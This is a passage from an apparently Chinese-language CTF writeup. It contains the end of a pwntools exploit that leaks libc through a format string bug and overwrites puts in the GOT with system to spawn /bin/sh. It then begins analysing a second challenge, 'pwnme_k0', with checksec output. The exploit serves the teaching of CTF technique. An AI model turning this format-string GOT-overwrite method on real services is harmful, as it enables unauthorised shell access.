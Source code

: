 ```python
        # print(exp_file.libs())
    else:
        exp_file = remote("127.0.0.1", 10000)
        elf_file = ELF("./pwn3")
        libc_file = ELF("/lib/i386-linux-gnu/libc.so.6")
        # print(exp_file.libs())

    # Using a format string vulnerability to leak the base address of libc
    login(exp_file)
    put_file(exp_file, "aaaa", p32(elf_file.got['puts'])+"%7$s")
    get_file(exp_file, "aaaa")
    libc_addr = u32(exp_file.recv(8)[4:8]) - libc_file.symbols['puts']
    system_addr = libc_addr + libc_file.symbols['system']
    log.info("libc_addr:{libc_addr}".format(libc_addr=hex(libc_addr)))

    # Change puts_got to address of system function
    puts_got = elf_file.got['puts']
    log.info("puts_got:{puts_got}".format(puts_got=hex(puts_got)))
    payload = fmtstr_payload(7, {puts_got: system_addr})
    put_file(exp_file, "/bin/sh;", payload)
    get_file(exp_file, "/bin/sh;")

    # To trigger puts("/bin/sh;")/system("/bin/sh;")
    exp_file.recvuntil("ftp>")
    exp_file.sendline("dir")
    exp_file.interactive()


if __name__ == '__main__':
    main()
```



## 0x24 pwnme_k0 writeup

拿到这个文件的时候，那时候提供的环境里面并没有 `ida` 只有关键部分的伪 `c代码` ，这个就有点蛋疼了，由于比赛时间太短了（客观借口，主要是我菜），所以这道题在比赛的时候我并没有调试出来，所以我决定赛后分析一下这道题。

首先先 `checksec` 一下程序

```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

看见开启了 `NX` 、`RELRO` ，不能够修改 `got` 表这就有点难受了。

### 程序分析
